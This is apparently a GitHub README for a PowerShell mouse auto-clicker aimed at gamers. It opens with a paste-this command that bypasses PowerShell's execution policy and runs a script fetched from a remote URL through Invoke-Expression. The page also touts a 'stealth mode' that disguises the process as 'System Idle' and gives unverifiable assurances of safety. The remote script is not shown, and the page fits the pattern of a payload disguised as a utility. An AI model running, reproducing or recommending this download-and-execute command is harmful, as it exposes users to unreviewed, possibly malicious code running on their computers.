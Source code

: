 **`powershell Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass && powershell Invoke-Expression (Invoke-RestMethod https://raw.githubusercontent.com/waaz1/clicker/refs/heads/main/clicker.ps1)`**

**A PowerShell-based mouse automation tool with ultra-precise timing — perfect for gaming, repetitive tasks, or testing.**

⚡ **Features**
🎯 **Click Control**
 - Adjustable CPS (1–1000) with microsecond precision
 - Supports left/right mouse buttons
 - Toggle key (customizable hotkey) for instant activation
⏱️ **High-Performance Engine**
 - Uses high-resolution timers for consistent click intervals
 - Compensates for lag/delays to maintain target CPS
 - Lightweight, no external dependencies

🎮 **Gaming Optimized**
 - Stealth mode: Masks process as "System Idle"
 - Minimal CPU usage for background operation
 - No installation required

🛠️ **Technical Details**
 - PowerShell 5.1+ compatible
 - Works on Windows 10/11 & Server
 - Admin rights not required

⚠️ **Disclaimer**
**For personal/educational use only.**
**Not responsible for bans or misuse in games/software.**
**Use at your own risk.**

🔒 **Security**
 - No data collection — runs entirely locally.
 - Open-source code for transparency.

👥 **Credits**
 - Developed by onlynelchilling & usnjournal.

**Not affiliated with any game studios.**

